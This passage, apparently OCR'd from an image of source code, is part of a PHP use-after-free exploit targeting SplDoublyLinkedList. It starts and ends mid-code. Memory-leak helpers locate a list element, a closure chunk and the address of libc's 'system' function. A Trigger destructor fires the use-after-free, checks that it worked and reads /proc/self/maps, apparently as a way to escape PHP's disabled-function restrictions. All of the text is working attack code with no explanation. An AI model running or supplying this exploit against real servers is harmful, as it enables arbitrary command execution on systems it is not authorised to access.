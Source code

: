 ```
    return getElement($a, array($start, $start + 0x200000, 0x200000));
    die("[!]Not Found");
}
function getElement(&$a, $address) {
    for ($x = 0;$x < ($address[2] / 0x1000 - 2);$x++) {
        $addr = 0x108 + $address[0] + 0x1000 * $x + 0x1000;
        for ($y = 0;$y < 5;$y++) {
            if (leak($a, $addr + $y * 0x08) === 0x1234567812345678 && ((leak($a, $addr + $y * 0x08 - 0x08) & 0xffffffff) === 0x01)){
                echo "[+]SplDoublyLinkedList Element: " . dechex($addr + $y * 0x08 - 0x18) . "\n";
                return $addr + $y * 0x08 - 0x18;
            }
        }
    }
}
function getClosureChunk(&$a, $address) {
    do {
        $address = leak($a, $address);
    }while(leak($a, $address) !== 0x00);
    echo "[+]Closure Chunk: " . dechex($address) . "\n";
    return $address;
}
function getSystem(&$a, $address) {
    $start = $address & 0xffffffffffff0000;
    $lowestAddr = ($address & 0x0000fffffff00000) - 0x0000000001000000;
    for($i = 0; $i < 0x1000 * 0x80; $i++) {
        $addr = $start - $i * 0x20;
        if ($addr < $lowestAddr) {
            break;
        }
        $nameAddr = leak($a, $addr);
        if ($nameAddr > $address || $nameAddr < $lowestAddr) {
            continue;
        }
        $name = dechex(leak($a, $nameAddr));
        $name = str_pad($name, 16, "0", STR_PAD_LEFT);
        $name = strrev(hex2bin($name));
        $name = explode("\x00", $name)[0];
        if($name === "system") {
            return leak($a, $addr + 0x08);
        }
    }
}
class Trigger {
    function __destruct() {
        global $s;
        unset($s[0]);
        $a = str_shuffle(str_repeat("T", 0xf));
        i2s($a, 0x00, 0x1234567812345678);
        i2s($a, 0x08, 0x04, 7);
        $s -> current();
        $s -> next();
        if ($s -> current() !== 0x1234567812345678) {
             die("[!]UAF Failed");
        }
        $maps = file_get_contents("/proc/self/maps");
        if (!$maps) {
            cantRead($a);
        }else {
            canRead($maps, $a);
        }
        echo "[+]Done";
    }
```